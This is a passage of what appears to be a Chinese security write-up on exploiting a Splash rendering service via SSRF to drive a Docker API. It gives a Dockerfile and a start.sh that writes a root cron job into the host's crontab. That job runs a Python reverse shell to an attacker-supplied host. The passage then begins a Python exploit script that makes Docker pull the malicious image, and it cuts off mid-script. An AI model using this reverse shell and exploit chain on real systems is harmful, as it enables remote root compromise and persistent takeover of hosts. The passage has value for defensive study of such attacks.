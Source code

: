 Dockerfile

```dockerfile
FROM busybox:latest

ADD ./start.sh /start.sh

WORKDIR /
```

start.sh：container启动时运行的脚本，负责写入宿主机 `/etc/crontab` ，第一个参数作为反弹host，第二个参数为端口

```bash
#!/bin/sh

echo "* * * * * root python -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect((\"$1\", $2));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1); os.dup2(s.fileno(),2);p=subprocess.call([\"/bin/sh\",\"-i\"]);'" >> /hostdir/crontab
```

构建并push

```shell
docker build -t b1ngz/busybox:latest .
docker push b1ngz/busybox:latest 
```

虽然 splash 支持 post 请求，但是比较坑的是，文档里没有给向目标地址发 `POST` 请求的例子，只有参数说明，看了遍文档，关键参数有这几个

-    url : 请求url
-    http_method：请求url的方法
-    headers: 请求 headers
-    body: 请求url的body，默认为 `application/x-www-form-urlencoded`

测试的时候，一开始一直使用 get 方法来请求 `render.html` 接口，但总是返回400 ，卡了很久

```json
{
    error: 400,
    description: "Incorrect HTTP API arguments",
    type: "BadOption",
    info: {
        argument: "headers",
        description: "'headers' must be either a JSON array of (name, value) pairs or a JSON object",
        type: "bad_argument"
    }
}
```

搜了一下，在 [github issue](https://github.com/scrapinghub/splash/issues/628#issuecomment-309606620) 里找到了原因，得用post请求，并且 `headers` 得在 body里，且类型为 json，略坑，这里给出利用脚本，代码有注释，大家可以自己看看

```python
# -*- coding: utf-8 -*-
__author__ = 'b1ngz'

import json
import re
import requests


def pull_image(api, docker_api, image_name, image_tag):
    print("pull image: %s:%s" % (image_name, image_tag))
    url = "%s/render.html" % api
    print("url: %s" % url)
    docker_url = '%s/images/create?fromImage=%s&tag=%s' % (docker_api, image_name, image_tag)
    print("docker_url: %s" % docker_url)
    params = {
        'url': docker_url,
```